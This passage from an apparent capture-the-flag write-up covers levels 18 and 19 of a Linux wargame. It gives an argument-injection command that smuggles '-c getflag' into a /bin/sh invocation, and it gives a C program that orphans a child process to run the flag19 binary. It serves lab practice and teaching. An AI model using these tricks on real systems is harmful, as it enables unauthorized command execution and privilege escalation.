 ```bash
./exploit: -d: invalid option
Usage:	./exploit [GNU long option] [option] ...
	./exploit [GNU long option] [option] script-file ...
GNU long options:
	--debug
	--debugger
	--dump-po-strings
	--dump-strings
	--help
	--init-file
	--login
	--noediting
	--noprofile
	--norc
	--posix
	--protected
	--rcfile
	--restricted
	--verbose
	--version
Shell options:
	-irsD or -c command or -O shopt_option		(invocation only)
	-abefhkmnptuvxBCHP or -o option
```

The problem is that in the flag18 binary,  `argv` is passed to `/bin/sh`, which considers `-d dummy_logfile` as an invalid option.

To circumvent this, we can craft this special command : `./exploit --debug -c getflag`. Here, `--debug` will in fact be considered as `-d ebug` by flag18 (according to the man page of `getopt`), and `-c getflag` will be ignored as `c` is not a valid option. On the other and, `--debug` is a valid `bash` option and `-c getflag` too, as this is the option to execute a bash command.

We can then launch our exploit with `./exploit --debug -c getflag`, type `login`, `closelog` and finally `shell`, and getflag will be executed as flag19.

## Level 19

The trick we can use here is to know that if a process becomes an orphan process (i.e it's parent process exits earlier), it gets adopted by the process `init`, which belongs to `root`. We can then code this exploit :

```c
#include <unistd.h>
#include <stdlib.h>

int main(int argc, char **argv, char **envp)
{
	pid_t pid = fork();
	if (pid == 0) {
		sleep(1);
		execve("/home/flag19/flag19", argv, envp);
	} else {
		exit(0);
	} 		
}
```

